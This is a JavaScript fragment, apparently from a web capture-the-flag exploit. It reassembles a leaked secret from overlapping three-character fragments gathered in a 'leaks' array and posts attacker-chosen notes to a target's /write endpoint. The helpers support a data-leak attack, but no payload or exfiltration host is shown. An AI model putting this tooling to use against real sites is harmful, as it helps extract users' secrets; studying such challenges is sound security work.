 ``` js
function mergeWords(arr, ending) {
  if (arr.length === 0) return ending
  if (!ending) {
    for(let i=0; i<arr.length; i++) {
      let isFound = false
      for(let j=0; j<arr.length; j++) {
        if (i === j) continue

        let suffix = arr[i][1] + arr[i][2] 
        let prefix = arr[j][0] + arr[j][1]

        if (suffix === prefix) {
          isFound = true
          continue
        }
      }
      if (!isFound) {
        console.log('ending:', arr[i])
        return mergeWords(arr.filter(item => item!==arr[i]), arr[i])
      }
    }

    console.log('Error, please try again')
    return
  }

  let found = []
  for(let i=0; i<arr.length; i++) {
    let length = ending.length
    let suffix = ending[0] + ending[1]
    let prefix = arr[i][1] + arr[i][2]

    if (suffix === prefix) {
      found.push([arr.filter(item => item!==arr[i]), arr[i][0] + ending])
    }
  }

  return found.map((item) => {
    return mergeWords(item[0], item[1])
  })
}

function handleLeak() {
  let str = ''
  let arr = [...leaks]
  leaks = []

  console.log('received:', arr)
  const merged = mergeWords(arr, null);
  console.log('leaked:', merged.flat(99))
  return merged.flat(99)
}

async function createNote(title, content){
  return await fetch(cookieJar, host + '/write', {
    method: 'POST',
    headers: {
      'content-type': 'application/x-www-form-urlencoded',
    },
    body: `title=${encodeURIComponent(title)}&content=${encodeURIComponent(content)}`
  })
}

```